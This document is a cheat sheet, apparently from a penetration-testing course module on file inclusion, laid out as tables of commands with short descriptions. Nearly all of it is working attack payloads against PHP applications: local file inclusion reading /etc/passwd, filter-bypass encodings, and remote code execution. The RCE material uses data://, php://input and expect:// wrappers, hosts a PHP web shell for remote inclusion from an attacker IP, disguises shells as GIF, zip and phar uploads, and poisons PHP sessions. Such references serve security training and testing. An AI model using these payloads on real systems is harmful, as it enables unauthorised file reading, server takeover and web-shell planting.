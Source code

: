 # 16. File inclusion

## **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

### Local File Inclusion

| **Command**                                                                                       | **Description**                                           |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| **Basic LFI**                                                                                     |                                                           |
| `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                 |
| `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                   |
| `/index.php?language=/../../../etc/passwd`                                                        | LFI with name prefix                                      |
| `/index.php?language=./languages/../../../../etc/passwd`                                          | LFI with approved path                                    |
| **LFI Bypasses**                                                                                  |                                                           |
| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |

### Remote Code Execution

| **Command**                                                                                                                 | **Description**                       |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
| **PHP Wrappers**                                                                                                            |                                       |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper                 |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
| **RFI**                                                                                                                     |                                       |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
| **LFI + Upload**                                                                                                            |                                       |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
| **Log Poisoning**                                                                                                           |                                       |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |